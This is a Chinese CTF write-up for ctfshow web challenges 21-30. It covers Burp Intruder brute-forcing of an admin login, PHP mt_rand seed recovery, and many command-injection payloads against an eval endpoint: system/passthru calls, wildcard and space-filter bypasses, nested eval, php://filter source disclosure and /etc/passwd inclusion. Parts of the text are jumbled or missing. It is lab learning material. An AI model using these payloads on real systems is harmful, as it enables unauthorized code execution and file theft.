

web21-30
Web21
有一点真麻烦
Bp抓包
发送给intruder
添加账号密码哪里

用自定义迭代器(Custom Iterator)
payload配置当中
位置1添加admin
位置2添加英文冒号
位置3添加下载的附件

Payload处理当中选择
对我们添加的东西进行base64加密
关闭对勾
开始破解
点击状态码

第一个就是账号和密码
解码出来是

admin:shark63
ctfshow{fb4fe60a-bc16-4982-92df-439262c04233}
Web22
没有靶机，自行wp
Web23

根据源码可知，需要token为特定的值才可以得到flag
Token里面应该是abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789
当中任意的几个的结合体
Wp里面假设了三个，php脚本为：
Intval()函数，将浮点数、布尔值转化为整数或0、1
mt_rand()函数，会根据系统时间或者其他东西来产生随机数
在本题中出现了mt_srand()函数mt_srand(372619038);
其中的数字是seed种子，一旦使用了此函数，在之后的mt_rand()函数将基于该种子生成随机数，如果这里的种子不变，那么生成的随机数也会固定不变（因为生成随机数的算法不会变）
那么我们通过运行
得到的数字1155388967就可以拿到flag
ctfshow{dddab7e5-2562-455d-9156-17542fe2507a}
Web25
$rand = intval($r)-intval(mt_rand());
当r=0时
Rand=-448251818
那么，mt_rand=448251818
这里需要反推出seed，下载php_mt_seed，拖进去ubuntu。对了，还需要php的版本，我们抓包看看响应头 PHP/7.3.11
在ubuntu运行脚本查看seed：928309670或者4126709391
在这里面运行（后一个seed正确）
>1.txt");把所有以php结尾的文件都写进一个txt ctfshow{cd997bb9-1ab7-48a7-819a-c5e9856aedc3} 插入一点知识: \1. ?c=phpinfo();当中的disable_functions  后面没有任何的值，也就是说，这里没有禁用任何的函数。那么我们就可以使用system函数来输出flag \2. ?c=system('ls');看到有flag.php和index.php两个文件，那么我们想一想，能不能单独显示出来flag.php，然后前面加上一个cat？ scandir(".")扫描当前目录，但没有回显 套上一个print_r()函数就可以看到回显，最终?c=print_r(scandir(".")); Array ( [0] => . [1] => .. [2] => flag.php [3] => index.php ) ?c=print_r(scandir(".")[2]);输出flag.php 那么，有了flag.php这个整体，那前面拼接一个cat是不是就可以了？ 知识有限，止步于此 # Web30 shell_exec ()函数：shell_exec('ls -l') 会执行 ls -l 系统命令 反引号和shell_exec()函数同理 ?c=echo `cat f*`;看源码出flag ?c=passthru('cat f*'); 这里呢？哈哈哈哈，卢本伟：** 万能办法>>和cp(复制，和>>差不多)用法cp flag.php 1.txt ?c=echo `cat [f]*`;注意看源代码，你看你的软件，肯定没回显的 ?c=echo `cat [f]* >> 1.txt`; ctfshow{e6cce2cc-a5dc-4e88-ba65-3cc8d4620046} # 总结21-30 1.bp当中的intruder为爆破部分 2.自定义迭代器(Custom Iterator):可以自动替换测试，而且可以添加前后缀，结果可以通过base64等加密一下 3.特定字符串内容一般abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789其中几个字符组成的，可以通过编写脚本得出需要的特定字符串 4.伪随机数mt_srand()和mt_srand(seed);产生的随机数是固定的。seed为数字串 5.intruder 当中有集束炸弹模式，可以选中多个部分进行爆破 6.if(!preg_match("/flag/i", $c)){：preg_match()函数用于执行正则表达式匹配 7.isset()函数用于检查变量是否已设置且非null。if(isset($_GET['c'])){ 8.eval()函数会将传入的字符串作为 PHP 代码执行 9.error_reporting(0);这行代码用于关闭错误报告(和报错注入有关？我瞎猜的) 10.Linux通配符: cat * [] {} ? 11.phpinfo();当中的disable_functions后面跟的值是禁用的函数 12.?c=system("cat *.php>>1.txt");把所有php的内容写到txt里面 13.scandir(".")表示扫描当前目录，一个点是当前目录，两个点是上级目录.套上一个print_r()函数就可以看到回显，最终?c=print_r(scandir(".")); Array ( [0] => . [1] => .. [2] => flag.php [3] => index.php ) ?c=print_r(scandir(".")[2]);输出flag.php 那在前面拼接一个cat是不是可以拿到flag？ 14.shell_exec ()函数：shell_exec('ls -l') 会执行 ls -l 系统命令.反引号和shell_exec()函数同理 15. ?c=passthru('cat f*'); ?c=echo cat [f]*;注意看源代码，你看你的软件，肯定没回显的 ?c=echo cat [f]* >> 1.txt; 16.?c=eval($_GET[a]);&a=system('cat flag.php'); 代码解释：从get当中获取了一个超全局变量a，并使用eval函数将其作为php代码执行 通过a来拿到flag，但这里似乎是在preg_match外运行的，不会受过滤的影响 $符号可以类比java当中的$ 17.空格绕过 %09 符号需要php环境 {cat,flag.txt} cat${IFS}flag.txt cat$IFS$9flag.txt cat或者?c=include%0a$_GET[a]?>&a=php://filter/convert.base64-encode/resource=flag.php
require “/etc/passwd”;
include_once “/etc/passwd”;
require_once “etc/passwd”;
20.?>符号相当于和前面的<?php对应了，然后后面的代码会在空间外执行